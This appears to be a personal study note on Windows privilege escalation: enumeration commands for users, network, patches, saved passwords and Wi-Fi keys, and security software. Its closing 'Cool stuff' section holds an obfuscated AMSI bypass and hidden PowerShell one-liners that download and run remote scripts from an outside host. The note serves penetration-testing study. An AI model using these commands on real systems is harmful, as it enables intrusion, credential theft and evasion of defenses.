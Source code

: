 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#summary
https://book.jorianwoltjer.com/windows/local-privilege-escalation

This link is an all comprehensive list of methods to escalate privileges on windows.

In this note I will document all the topics and commands/tools I read thru and tried.
The goal is to solidify my knowledge and memorize essential commands and not be reliant on tools/scripts to enumerate windows machines.

## Initial foothold

After achieving a shell with a low level capabilities, here is how to start enumerating.
Just remember to get a manual page or usage instructions try `/?` 0r `-h` or `--help` or just a command name.

```powershell
systeminfo # lots of information about the system
# combine with...
systeminfo | findstr /B /C:"OS Name:" /C:"OS Version:" # /B - beggining of line, /C - literal str match

wmic qfe # shows patches aka hotfixes installed on the system
# for an cleaner output we can specify columns
wmic qfe get Caption,Description,HotFixID,InstalledOn

# list storage drives, same as previous command
wmic logicaldisk get caption,description,providername

# if you don't have access to wget/curl
certutil -urlcache -f http://IPADDR/filename.ext filename.ext
```


## User and groups

```powershell
whoami # el classico
whoami /priv # displays a list of privs with columns of 'name', 'description', 'state' of priv.
whoami /groups # displays what groups the user is part of and what kind of privileges does that goup have.

net user # show users on the machine.
net user "user_name" # show info about user.

net localgroup # displays users that part of a group if supplied otherwise lists groups.
```

In privileges there are tokens which can be impersonated to escalate privileges, this topic will be covered further down the line.

```powershell
C:\Users\Joe>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeLockMemoryPrivilege         Lock pages in memory                 Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

The idea of moving laterally and vertically in the windows environment is to explore your attack surface with the goal to eventually escalate to NT_AUTHORITY.
Moving laterally is for example **pivoting** to the user from an webservice user thus increasing our capabilities and privileges.
Moving vertically is **escalating** privileges.

## Network enumeration

```powershell
ipconfig /all # network configuration - dns server could be a domain controller aka top machine of win servers.
arp -a # address resolution protocol - maps networks and pairs MAC addresses to IP addresses - will display IP of a machine that ARP found.

route print # can help you identify an another NIC on the machine or a subnet.
netstat -ano # classic TCP/UDP connections display. Will show lots of ports that do not show up on your scan, these can be used for portforwarding.
```

```powershell
netsh wlan show profile # SSID of the network
netsh wlan show profile "SSID" key=clear # will show AP password in clear text
```

These commands will help us learn more about the network the machine is connected to, and the network configuration itself.

## Password hunting

SAM passwords - topic.

```powershell
findstr /si password *.txt # searches only in current directory - good idea would be to search in System32 path and add also *.ini *.config
cmdkey /list # lists accounts that have saved passwords and emails associated with them.
```


## Firewall & Anti Virus enumeration

```powershell
sc query windefend # status and info about windows defender. sc - service control
sc queryex type= service # lists all running services - tells you what kind of AV and other defense software is there. (long output)

netsh advfirewall firewall dump # firewall info - might require admin privs.
netsh firewall show state # older command most likely to work and not requre admin privs.
netsh firewall show config # configuration for firewall.
```


## Automation tools

![[Pasted image 20250428174400.png]]
Having many tools in your toolbelt is beneficial.
Every privilege escalation is going to be different and will have different road blocks.

Sometimes you will not be able to use Metasploit suggester or Powershell might not work, or executables will simply not run.
Thus having many tools and understanding of what they do is the key.


## Cool stuff

```powershell
# run powershell script from web
# raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
PS C:\> IEX(New-Object System.Net.WebClient).DownloadString('https://url_to_script');


IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1');
# enables all things in whoami /priv


# amsi disable - run powershell scripts that flag ScriptContainedMaliciousContent.
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")

# creates a new PS headless process.
$psi = New-Object System.Diagnostics.ProcessStartInfo
$psi.FileName = "powershell"
$psi.Arguments = "-NoProfile -WindowStyle Hidden -Command `"pause`""
$psi.CreateNoWindow = $true
$psi.UseShellExecute = $false

[System.Diagnostics.Process]::Start($psi)
# end




$psi = New-Object System.Diagnostics.ProcessStartInfo;
$psi.FileName = "powershell";
$psi.Arguments = "-NoProfile -WindowStyle Hidden -Command `"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.2:8888/kaboom.txt');`"";
$psi.CreateNoWindow = $true;
$psi.UseShellExecute = $false;
[System.Diagnostics.Process]::Start($psi);
exit;

```